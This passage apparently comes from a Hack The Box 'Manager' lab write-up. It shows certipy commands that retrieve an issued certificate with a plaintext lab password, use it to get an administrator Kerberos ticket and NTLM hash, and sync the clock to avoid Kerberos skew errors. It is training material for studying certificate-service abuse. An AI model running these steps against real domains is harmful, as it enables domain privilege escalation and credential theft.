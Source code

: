 - Now that we have successfully issued the certificate, we can then retrieve it and we can do that using certipy (it loads the private key we saved), Now we have the certificate and the private key.

```shell
certipy req -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -retrieve 14
```

![](assets/Manager_assets/Pasted%20image%2020231223165229.png)

- Now we can use this certificate to try and retrieve a TGT

```shell
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.23
```

- but we get an error about our clock skew being too great

![](assets/Manager_assets/Pasted%20image%2020231223190104.png)

```ad-note
Clockskew is the time difference between the clocks of 2 computes , In Kerberos, its is important to ensure that the clocks of participating  entities(kerberos clients, servers, and KDC) are synchronised cause lets say oif a ticket is meant to expire and the clocks are not synchronised then an attacker can use an already expired ticket.
```

- so we can sync our clock with that of the DC by running the command

```shell
sudo ntpdate 10.10.11.236
```

- now we can successfully get a TGT and also the hash of the admin user

```shell
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.236
```
